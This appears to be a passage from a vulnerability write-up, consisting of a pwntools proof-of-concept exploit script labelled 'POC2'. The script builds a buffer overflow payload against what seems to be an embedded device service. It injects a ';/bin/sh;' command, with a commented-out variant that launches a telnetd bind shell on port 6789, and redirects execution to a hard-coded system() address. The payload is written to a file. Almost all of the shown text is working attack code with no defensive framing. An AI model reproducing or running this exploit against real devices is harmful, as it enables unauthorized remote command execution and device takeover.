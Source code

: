 ![image-20220312185211111](images/image-20220312185211111.png)

POC2:

```python
#!/usr/bin/env python
#-*-coding:utf-8-*-
from pwn import *
#remote
#commend = "; telnetd -l /bin/sh -p 6789 ;"
commend = ";/bin/sh;"

system = 0x00010BB0

length_part1 = p8(0xff)
length_part2 = p8(0xff)
length_part3 = p8(0xff)
content_length_part1 = p8(0xff)
content_length_part2 = p8(0xff)
offset = 0x2fd - 77 - 5 - 4
payload ="*#$^"+length_part1+length_part2+length_part3+content_length_part1+content_length_part2+ 'A'* offset
payload += commend.ljust(0x2f8,"b")
payload += p32(system)

n = ord(length_part3) + 4 * (ord(length_part2) + 2 * ord(length_part1)) #3315
payload_length = ord(content_length_part2) + 2 * ord(content_length_part1) # 0x2fd

with open("shellcode","w") as f:
	f.write(payload)
f.close()
```
